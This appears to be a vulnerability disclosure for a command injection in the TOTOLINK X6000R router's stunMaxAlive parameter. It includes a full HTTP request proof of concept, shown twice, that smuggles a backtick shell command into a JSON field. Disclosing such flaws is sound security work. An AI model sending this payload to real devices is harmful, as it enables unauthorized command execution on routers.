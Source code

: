 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is parameter **`stunMaxAlive`** of `sub_4119A0` function in `/usr/sbin/shttpd` binary file.

**Notice**:
I checked **all the currently disclosed CVEs** and found that the affected parameters in the currently exposed sub_4119A0 are:
- [ ] interval
- [ ] pass
- [ ] enable
- [ ] url
- [ ] informEnable
- [ ] user
- [ ] stun_user
- [ ] request_user
- [ ] request_pass
- [ ] stun_enable
- [ ] stunServerAddr

However, parameters
- [ ] **port**
- [ ] **stunPort**
- [ ] **stunMaxAlive**
- [ ] **stunMinAlive**

are ignored.

# Details
Funtion `sub_4119A0` get `stunMaxAlive` from user's input and use `Uci_Set_Str`, which leads to command execution:
![image](https://github.com/user-attachments/assets/c3cb5aa4-9b11-44a6-a2a1-9903654f08e2)

`Uci_Set_Str`:
![image](https://github.com/user-attachments/assets/fec24bc9-d13a-4c0f-bcd0-57a605e68383)

`CsteSystem`:
![image](https://github.com/user-attachments/assets/c55d454e-996d-451d-b21a-837127736d69)

The corresponding front-end web interface is here:
![image](https://github.com/user-attachments/assets/12ba6593-3d59-4390-ad1b-fbf1e3d9d2a6)

Use burpsuite to intercept the packet, and modify the value of `stunMaxAlive`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 325
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"`ls > /web/stunMaxAlive.txt`","stunMinAlive":"","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/8ba55ef5-30d4-4a7e-b8ba-1ddd5aba3232)

![image](https://github.com/user-attachments/assets/335be9ac-1290-4175-87dc-8bbb7e11fbce)


# PoC
Login first,
Use burpsuite to intercept the packet, and modify the value of `stunMaxAlive`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 325
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"`ls > /web/stunMaxAlive.txt`","stunMinAlive":"","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/8ba55ef5-30d4-4a7e-b8ba-1ddd5aba3232)

![image](https://github.com/user-attachments/assets/335be9ac-1290-4175-87dc-8bbb7e11fbce)
